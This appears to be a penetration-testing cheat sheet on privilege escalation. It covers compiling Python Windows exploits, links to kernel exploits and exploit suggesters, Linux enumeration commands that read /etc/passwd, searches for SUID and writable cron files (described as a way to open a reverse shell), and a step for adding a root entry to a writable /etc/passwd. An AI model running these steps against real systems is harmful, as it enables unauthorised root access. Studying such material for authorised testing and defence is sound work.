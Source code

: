 To compile Python exploit on Windows:
1. On Windows, install PyWin32
2. Download and extract Pyinstaller
3. Open cmd and cd into Pyinstaller
4. `python pyinstaller.py --onefile [.py]`

Note: Pywin32 installation error: https://stackoverflow.com/a/21081675/4908573

Resources:
* Precompiled Windows Kernel Exploits: https://github.com/SecWiki/windows-kernel-exploits

Tools:
* Windows Exploit Suggester: https://github.com/GDSSecurity/Windows-Exploit-Suggester
* `systeminfo`
* `wmic qfe get Caption,Description,HotFixID,InstalledOn`
* Metasploit Module: `post/multi/recon/local_exploit_suggester`

## Configuration Issues

### Linux Configuration Issues
What's the OS? What version? What architecture?
* `cat /etc/*-release`
* `uname -i`
* `lsb_release -a` (Debian based OSs)

Who are we? Where are we?
* `id`
* `pwd`

Who uses the box? What users? (And which ones have a valid shell)
* `cat /etc/passwd`
* `grep -vE "nologin|false" /etc/passwd`

What's currently running on the box? What active network services are there?
* `ps aux`
* `netstat -antup`

What's installed? What kernel is being used?
* `dpkg -l` (Debian based OSs)
* `rpm -qa` (CentOS / openSUSE)
* `uname -a`

Much more at: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

* SUID Files
* `find / -perm -4000 -type f -ls 2> /dev/null` find SUID files that are potentially vulnerable (outdated nmap w/ interactive mode, scripts that give you effective root immediately)
* `find / \( -perm -2003 -o -perm -4003 \) -type f -ls 2> /dev/null` find SUID/SGID files that are both writable and executable (if you are lucky)
* `find / -perm -002 -type f -ls 2> /dev/null | grep cron` find writable cron files (and use it to open a reverse shell)

Writable `/etc/passwd` or `/etc/shadow`
* Writable `/etc/passwd`, write password generated from `openssl passwd [password]` to `root:[here]:0:0:root:/root:/bin/bash`, then login as root using the password.

